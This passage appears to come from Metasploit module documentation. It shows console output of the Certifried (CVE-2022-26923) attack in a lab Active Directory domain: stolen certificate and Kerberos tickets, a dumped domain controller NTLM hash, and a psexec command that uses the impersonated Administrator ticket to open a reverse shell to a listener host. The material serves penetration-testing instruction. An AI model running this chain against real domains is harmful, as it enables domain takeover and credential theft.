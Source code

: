 ```
[+] 192.168.100.104:445 - 192.168.100.104:88 - Received a valid TGS-Response
[*] 192.168.100.104:445 - 192.168.100.104:445 - TGS MIT Credential Cache ticket saved to /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_985570.bin
[*] 192.168.100.104:445 - Disconnecting SMB
[*] 192.168.100.104:445 - Connecting SMB with Test.mylab.local:123456
[*] 192.168.100.104:445 - Connecting to Security Account Manager (SAM) Remote Protocol
[*] 192.168.100.104:445 - Binding to \samr...
[+] 192.168.100.104:445 - Bound to \samr
[*] 192.168.100.104:445 - Using automatically identified domain: MYLAB
[!] 192.168.100.104:445 - Unable to delete the computer account, this will have to be done manually with an Administrator account (Could not delete the computer DESKTOP-E0SYYS6U$: Error returned while deleting user in SAM server: (0xc0000022) STATUS_ACCESS_DENIED: {Access Denied} A process has requested access to an object but has not been granted those access rights.)
[*] 192.168.100.104:445 - Disconnecting SMB
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > creds
Credentials
===========

host             origin           service        public             private                                                            realm        private_type  JtR Format
----             ------           -------        ------             -------                                                            -----        ------------  ----------
192.168.100.104  192.168.100.104  445/tcp (smb)  DESKTOP-E0SYYS6U$  4PuZlX57aULpEKXUZisjp227G0W0Rdvi                                   MYLAB        Password
192.168.100.104  192.168.100.104  445/tcp (smb)  dc02$              aad3b435b51404eeaad3b435b51404ee:a93d16873c9d49be9b1bce4359dcaa6d  MYLAB.LOCAL  NTLM hash     nt,lm

msf6 auxiliary(admin/dcerpc/cve_2022_26923_certifried) > loot

Loot
====

host             service  type                 name             content                   info                                                                      path
----             -------  ----                 ----             -------                   ----                                                                      ----
192.168.100.104           windows.ad.cs        certificate.pfx  application/x-pkcs12      MYLAB\ Certificate                                                        /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_windows.ad.cs_852935.pfx
192.168.100.104           mit.kerberos.ccache                   application/octet-stream  realm: MYLAB.LOCAL, client: dc02$, server: krbtgt/mylab.local             /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_654380.bin
192.168.100.104           mit.kerberos.ccache                   application/octet-stream  realm: MYLAB.LOCAL, client: administrator, server: cifs/dc02.mylab.local  /home/msfuser/.msf4/loot/20230112165003_default_192.168.100.104_mit.kerberos.cca_985570.bin
```

### Using `psexec` with the TGS impersonating the Administrator
```
msf6 exploit(windows/smb/psexec) > exploit rhosts=192.168.100.104 lhost=192.168.100.1 smbuser=administrator smbdomain=mylab.local Smb::Auth=kerberos Smb::Rhostname=dc02.mylab.local DomainControllerRhost=192.168.100.104


[*] Started reverse TCP handler on 192.168.100.1:4444
[*] 192.168.100.104:445 - Connecting to the server...
[*] 192.168.100.104:445 - Authenticating to 192.168.100.104:445|mylab.local as user 'administrator'...
[*] 192.168.100.104:445 - 192.168.100.104:88 - Using cached credential for cifs/DC02.mylab.local@MYLAB.LOCAL Administrator@MYLAB.LOCAL
[*] 192.168.100.104:445 - Selecting PowerShell target
```
